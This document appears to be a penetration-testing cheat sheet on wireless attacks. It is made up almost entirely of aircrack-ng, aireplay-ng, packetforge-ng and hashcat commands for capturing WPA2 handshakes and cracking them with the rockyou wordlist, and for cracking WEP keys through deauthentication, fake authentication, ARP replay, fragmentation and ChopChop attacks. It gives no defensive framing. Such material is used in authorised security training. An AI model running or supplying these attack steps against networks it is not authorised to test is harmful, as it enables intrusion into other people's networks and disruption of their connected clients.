

# Wireless Attacks



### Cracking WPA2

```text
# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 — bssid <BSSID> -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a <BSSID> -c <CLIENT> mon0

########## crack password with aircrack-ng… ########### 

download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

#  convert cap to hccapxcap2hc
capx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh

########## crack password with hashcat ##########
# hashcat64.exe -m 2500 cap.hccapx rockyou.txt -r rules\<rule> 
```

### Cracking WEP with Open Authenitcation Clients

```text
########## Cracking WEP With Clients (open authentication) ########## 
#enter monitor mode
airmon-ng start wlan0 <AP Channel>

#capture dump of target AP  
airodump-ng -c <channel> --bssid <MAC> -w <file-name> wlan0

#fake auth attack on AP
aireplay-ng -1 0 -e <AP ESSID> -a <MAC AP> -h <wlan0 MAC> wlan0

#fake auth attack on picky AP
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <wlan0 MAC> wlan0

#deauth attack to get ARP packet of another client
aireplay-ng -0 1 -a <AP MAC> -c <Victim MAC> wlan0

#arp request replay attack
aireplay-ng -3 -b <AP MAC> -h <wlan0 MAC> wlan0

#deauth to speed up capture of IV/WEP Key
aireplay -0 1 -a <AP MAC> -c <Victim MAC> wlan0

#crack WEP Key
aircrack-ng -0 <filename>
```

### Cracking WEP Via Client

```text
########## Cracking WEP Via Client ########## 
#enter monitor mode
airmon-ng start wlan0 <AP Channel>

#capture dump of target AP  
airodump-ng -c <channel> --bssid <MAC> -w <file-name> wlan0

#associate your MAC with AP (fake auth attack)
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> wlan0

#interactive packet replay attack 
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -t 1 wlan0

#refined interactive replay attack
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0

#replay the interactive replay attack to collect weak IVs
aireplay-ng -2 -r <capture filename> wlan0

#crack WEP Key
aircrack-ng -0 -z -n 64 <file-name>
```

### Cracking Clientless WEP 

```text
########## Cracking WEP without Clients ########## 
#enter monitor mode
airmon-ng start wlan0 <AP Channel>

#capture dump of target AP  
airodump-ng -c <channel> --bssid <MAC> -w <file-name> wlan0

# fake auth attack with association timing
aireplay-ng -1 6000 -e <ESSID> -a <AP MAC> -h <wlan0 MAC> wlan0

##Option 1: fragmentation attack until 150,000 bytes 
aireplay-ng -5 -b <AP MAC> -h <wlan0 MAC> wlan0

#create arp request packet
packetforge-ng -0 -a <AP MAC> -h <wlan0 MAC> -k <Dest IP/Local Broadcast IP> -l <Source IP> -y <xor file> -w <output file>

#inject crafted packet to recieve IV
aireplay-ng -2 -r <inject file> wlan0

#time to crack WEP Key
aircrack-ng <capture file .cap>

##Option 2: KoreK ChopChop (tends to work when frag attack does not, but takes longer) 
aireplay-ng -4 -b <AP MAC> -h <wlan0 MAC> wlan0

#create arp request packet
packetforge-ng -0 -a <AP MAC> -h <wlan0 MAC> -k <Dest IP/Local Broadcast IP> -l <Source IP found in KoreK attack> -y <xor file> -w <output file>

#inject crafted packet to recieve IV
aireplay-ng -2 -r <inject file> wlan0

#time to crack WEP Key
aircrack-ng <capture file .cap>
```

